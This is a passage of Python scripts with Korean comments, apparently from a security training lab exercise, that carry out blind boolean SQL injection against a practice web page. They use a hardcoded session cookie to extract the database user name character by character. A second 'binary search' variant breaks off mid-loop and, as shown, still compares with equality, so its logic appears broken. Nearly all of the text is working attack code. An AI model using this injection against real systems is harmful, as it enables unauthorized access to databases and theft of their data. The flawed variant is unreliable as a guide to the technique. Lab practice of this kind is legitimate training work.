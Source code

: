 cookies = {
    "JSESSIONID": "DD69440070FB72FBDCD551628468CE83"  # 주어진 쿠키 값
}

# 사용자 이름의 글자를 순차적으로 추출
user_name = ''
print("사용자 이름의 각 문자를 추출하는 중...")

for i in range(1, 9):  # 1부터 8까지 (1번째부터 8번째 문자까지)
    for ascii_value in range(32, 127):  # ASCII 문자 범위
        query = f"(SELECT ASCII(SUBSTR(user, {i}, 1)) FROM dual) = {ascii_value}"
        attackUrl = url + " and " + query
        res = requests.get(attackUrl, cookies=cookies)

        # 쿼리와 성공 여부 출력
        print(f"실행된 쿼리: {query}")
        
        if 'MacBook' in res.text:  # 성공적인 응답 확인
            user_name += chr(ascii_value)  # ASCII 값을 문자로 변환하여 추가
            print(f"사용자 이름의 {i}번째 문자: {chr(ascii_value)}")
            break  # 다음 문자로 넘어감
        else:
            print("실패")

print(f"사용자 이름: {user_name}")


4. 이진탐색을 이용

import requests
requests.packages.urllib3.disable_warnings()

url = "https://elms2.skinfosec.co.kr:8222/practice/practice01/detail?id=62"

cookies = {
    "JSESSIONID": "DD69440070FB72FBDCD551628468CE83"  # 주어진 쿠키 값
}

# 사용자 이름의 글자를 순차적으로 추출
user_name = ''
print("사용자 이름의 각 문자를 추출하는 중...")

for i in range(1, 9):  # 1부터 8까지 (1번째부터 8번째 문자까지)
    low = 32
    high = 126
    found_char = None

    while low <= high:
        mid = (low + high) // 2
        query = f"(SELECT ASCII(SUBSTR(user, {i}, 1)) FROM dual) = {mid}"
        attackUrl = url + " and " + query
        res = requests.get(attackUrl, cookies=cookies)
